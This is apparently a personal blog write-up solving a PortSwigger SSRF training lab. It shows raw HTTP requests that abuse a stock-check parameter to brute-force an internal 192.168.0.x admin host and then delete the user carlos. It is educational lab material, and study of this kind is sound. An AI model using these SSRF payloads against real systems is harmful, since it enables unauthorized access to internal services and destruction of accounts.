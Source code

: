 ```yaml
---
title: "SSRF: challange 2"
date: "2024-02-09"
thumbnail: "/assets/img/thumbnail/ssrf.png"
---
```


#  Basic SSRF against another back-end system
---

Link: https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos. 

### solution

- start the lab and remember the objective is to open `/admin` and delete the user carlos
- if u try going to `/admin` endpoint, you will n't get the result as u can't access it directly.
- so let's go to products and click check stock as challange describtion said
- intercept this request

```
POST /product/stock HTTP/1.1
Host: 0aa4001c041a5c3f81caca2000520096.web-security-academy.net
Cookie: session=2Gw97cnP5g3C7q7rHceYJzb6gt78siRj
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa4001c041a5c3f81caca2000520096.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0aa4001c041a5c3f81caca2000520096.web-security-academy.net
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

- notice that stockApi parameter has a url as a value, so let's try to change it to `http://192.168.0.x:8080/admin` as said in describtion.
- we don't know the value of x so we will send the request to the intruder for brute forcing to be like this

```
POST /product/stock HTTP/1.1
Host: 0aa4001c041a5c3f81caca2000520096.web-security-academy.net
Cookie: session=2Gw97cnP5g3C7q7rHceYJzb6gt78siRj
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa4001c041a5c3f81caca2000520096.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0aa4001c041a5c3f81caca2000520096.web-security-academy.net
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

stockApi=http://192.168.0.§x§:8080/admin
```

- notice that x is between two of § character, as it's parameter of the brute force
- to choose the values of it we will go to `payloads` tab
- change payload type to `numbers` and make it ranges from 0 to 255 with step 1
- start the attack and wait until you see a request with status 200
- when you find it this means that this is the suitable ip
- back to the repeater and use it with changing the value of the stockApi to: `/admin/delete?username=carlos`
- carlos is deleted
- congratzzzzzzzzzzzzzzzzzzzzz
